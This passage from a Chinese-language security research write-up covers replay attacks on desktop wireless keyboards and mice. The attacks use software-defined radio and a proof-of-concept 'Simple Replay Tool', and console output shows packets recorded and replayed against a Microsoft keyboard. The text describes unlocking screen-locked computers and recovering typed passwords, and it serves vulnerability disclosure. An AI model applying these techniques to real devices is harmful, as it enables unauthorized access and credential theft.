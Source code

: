 对于桌面无线设备来说，攻击者可以通过重放攻击完成以下两种攻击：

1、在无人看守时，获取处于屏幕锁定状态下的计算机的未授权访问权限。

2、物理接触目标桌面无线设备的USB收发器时，能以明文形式恢复用户的按键信息，例如，可以获取用户输入的密码信息。

攻击者在不知道实际的通信协议的情况下（即黑盒模式下），可以使用软件定义的无线电进行重放攻击。使用软件定义的无线电进行重放攻击时所需的实验设备如图15所示。

[![](https://p5.ssl.qhimg.com/t0186909000d1627843.png)](https://p5.ssl.qhimg.com/t0186909000d1627843.png)

以Fujitsu桌面无线设备为目标，我们实施重放攻击时所使用的GRC流程图如图16所示。

[![](https://p0.ssl.qhimg.com/t010aa6a52be4377312.png)](https://p0.ssl.qhimg.com/t010aa6a52be4377312.png)

复杂状态下的重放攻击需要使用特定的数据报文，我们可以将Crazyradio PA以及Bastille的nrf研究固件结合使用，实现复杂情况下的重放攻击。

在这个研究项目中，我们开发了一款Python工具，名为Simple Replay Tool，我们使用这款工具来演示5个被测设备没有或缺乏重放攻击防护机制。针对Microsoft Wireless 2000键盘的重发攻击输出结果如下所示：



```
1 # python simple_replay.py -c 25
2 _____ ______ ___ _ _ _____ _ _
3 | __ | ____|__ | || | | __ | | | |
4 _ __ | |__) | |__ ) | || |_ | |__) | | __ _ _ _ ___ ___| |_
5 | '_ | _ /| __| / /|__ _| | ___/| |/ _` | | | / __|/ _  __|
6 | | | | |  | | / /_ | | | | | | (_| | |_| __  __/ |_
7 |_| |_|_| __| |____| |_| |_| |_|__,_|__, |___/___|__|
8 __/ |
9 |___/
10 Simple Replay Tool v0.2 by Matthias Deeg - SySS GmbH (c) 2016
11 [*] Configure nRF24 radio
12 [*] Scanning for wireless keyboard ...
13 [+] Received data: 083816010100f32a
14 [+] Found nRF24 device with address A9:A9:8F:EB:CD on channel 25
15 [?] Attack this device (y/n)? y
16 [*] Start recording (&lt;CTRL+C&gt; to stop recording)
17 [+] Received data: 09981601dea2f3157ec032fcfa34ce70dee330c9
18 [+] Received data: 09981601dea2f3157ec032fcfa34ce70dee330c9…
19 ()
20 ^C
21 [*] Stop recording
22 [*] Press &lt;ENTER&gt; to replay the recorded data packets or &lt;CTRL+C&gt; to quit ...
23 [+] Send data: 09981601dea2f3157ec032fcfa34ce70dee330c9
24 [+] Send data: 09981601dea2f3157ec032fcfa34ce70dee330c9…
25 ()
```

通过这款概念验证软件，我们成功完成了本节开头描述的两种攻击形式。通过物理接触USB收发器，记录下键盘按键所对应的无线通信数据，我们成功搞定了处于屏幕锁定状态下计算机系统的未授权访问权限，也成功恢复了明文的按键信息。

**5.4 按键注入攻击**

这5个测试设备中有3个存在加密问题，会受到按键注入攻击影响，这也是我们发现的最后一个安全漏洞（但并不意味着漏洞分量最轻）。
